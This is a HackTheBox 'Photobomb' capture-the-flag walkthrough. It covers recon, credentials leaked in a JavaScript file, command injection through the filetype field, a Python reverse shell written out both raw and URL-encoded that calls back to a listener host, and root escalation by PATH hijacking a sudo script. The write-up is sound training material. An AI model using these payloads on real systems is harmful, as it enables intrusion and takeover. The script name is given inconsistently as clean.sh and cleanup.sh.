 # HackTheBox: Photobomb Writeup

## Photobomb
### Reconnaissance | Scanning

To begin with, our first priority is to conduct reconnaissance using the provided IP. Our plan is to perform an Nmap scan of the network in order to identify any open ports.

No alt text provided for this image
Nmap Scan

By analyzing the current status, we can observe that only two ports are accessible - port 22 and port 80. The latter, identified as an http port, appears to be running nginx 1.18.0 on Ubuntu. Our next course of action is to focus on port 80 and investigate any potential website content. Utilizing the given IP address of 10.129.228.60, we can explore the contents available on this specific port.

No alt text provided for this image
IP Showing URL Name

At this point, we need to include the new URL "photobomb.htb" to the /etc/hosts file to access the corresponding webpage. From here we will nano into the /etc/hosts file.

No alt text provided for this image
etc/hosts file

With the updated IP and URL added to the /etc/hosts file, we can now revisit the browser and access the photobomb.htb link. This will allow us to delve deeper into the website and conduct further investigation.

No alt text provided for this image
Webpage working properly

On the page, we have a hyperlink "click here!" that leads to photobomb.htb/printer. Upon clicking on the link, a login popup appears. We attempted to log in with the credentials "admin:admin," but no response was generated. Cancelling the login led us to a 401 Authorization Required error, accompanied by nginx/1.18.0 (Ubuntu) message.

No alt text provided for this image
Login

No alt text provided for this image
401 Authorization Required Link: photobomb.htb/printer

Our next step is to examine the source code of the photobomb.htb webpage. After some investigation, we discovered a photobomb.js file that we can explore further.

No alt text provided for this image
photobomb.js file that show credentials

After conducting a thorough examination of the photobomb.js file, we have uncovered the existence of credentials embedded within the Javascript code. Our next step is to attempt to log in using the credentials pH0t0:b0Mb!.

No alt text provided for this image
Login page for phtobomb.htb/printer

No alt text provided for this image
Bottom of page with Download Photo button

Our next course of action is to set up BurpSuite in order to intercept the connections originating from the "Download Photo to Print" button. This will allow us to view any information or prompts that may appear prior to the page progressing further.

No alt text provided for this image
Intercepting with BurpSuite

### Gaining Access
At this point, we can begin testing for any potential vulnerabilities with the "Download Photo to Print" button. Our initial approach will be to test for a delay or timing attack by attempting to cause a five-second delay and observing the response.

After conducting further testing and experimenting with the sleep function, it has been confirmed that the page can be made to sleep for five seconds. This may indicate the presence of a potential vulnerability that could be further exploited.

To obtain a reverse shell, we utilized the Online Reverse Shell Generator (revshells.com) and selected the Python3 #1 option.

```
export RHOST="10.10.14.78";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

Our next step will involve URL encoding the reverse shell and embedding it into the &filetype=jpg& field in BurpSuite. Additionally, we must establish a Netcat listener. The method I used to URL encode the reverse shell is by utilizing the built-in function in BurpSuite.

```
%3bexport%20RHOST%3D%2210.10.14.78%22%3Bexport%20RPORT%3D5555%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```

No alt text provided for this image
URL Encoded Reverse Shell

Upon advancing the page in BurpSuite, we successfully captured traffic using the Netcat listener. This indicates that the reverse shell was successfully executed and that we have gained access to the target system.

No alt text provided for this image
Netcat Listener | User Wizard

Now that we have gained access to the target system, we can proceed to investigate the user "Wizard" and explore the contents of their account.

No alt text provided for this image
Traversing Directories found User Flag

### Maintaining Access
After traversing through the system directories, I successfully obtained the user flag from the "user.txt" file. Our next step will be to obtain root privileges through privilege escalation.

No alt text provided for this image
Sudo -l

Using the command "sudo -l," we were able to determine the type of root privileges granted to the user. It appears that the user has root privileges to execute the command "/opt/clean.sh". To proceed, we will investigate the "/opt/clean.sh" file by running the "cat /opt/clean.sh" command. This will display the contents of the file in the terminal.

No alt text provided for this image
cat /opt/cleanup.sh

In the next step, we need to switch to the bash shell and then set the executable permission for the "find" file to gain complete access. We can accomplish this by running "chmod +x find". The command "echo bash > find" will create a file named "find" in the current directory and write the string "bash" to it. If the file already exists, it will be overwritten.

No alt text provided for this image
echo bash > find | chmod +x find

The next command is sudo PATH=$PWD:$PATH /opt/cleanup.sh. This will add the current working directory to the beginning of the $PATH environment variable, giving priority to any executables in the current directory over those in other directories. Then, it runs the /opt/clean.sh script with sudo, which will execute with root privileges because of the sudo command.

No alt text provided for this image
Root Access

Once you have root access, you can investigate the system further for any important information, such as configuration files, logs, and running processes. This will help you understand how the system works and identify any potential vulnerabilities or misconfigurations that can be exploited. You can also check for any user accounts, credentials, or sensitive data that may be stored on the system. It's important to document your findings and take steps to secure the system to prevent future attacks.

No alt text provided for this image
Root Flag
